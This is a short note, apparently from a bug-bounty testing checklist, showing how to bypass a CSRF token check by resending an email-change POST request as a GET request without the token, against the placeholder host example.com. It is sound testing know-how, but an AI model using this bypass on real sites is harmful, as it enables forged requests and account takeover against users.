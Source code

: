 #                   Test CSRF

## Case 1:
**Whne you see there is protection of CSRF token you can bypass it via GET request.**
```
POST /email/change-email HTTP/1.1
Host: example.com
....


email=bughunter2c@gmail.com&csrf=xyz...
```
_To_
```
GET /email/change-email?email=bughunter2c@gmail.com HTTP/1.1
Host: example.com
...
Xhz...
```
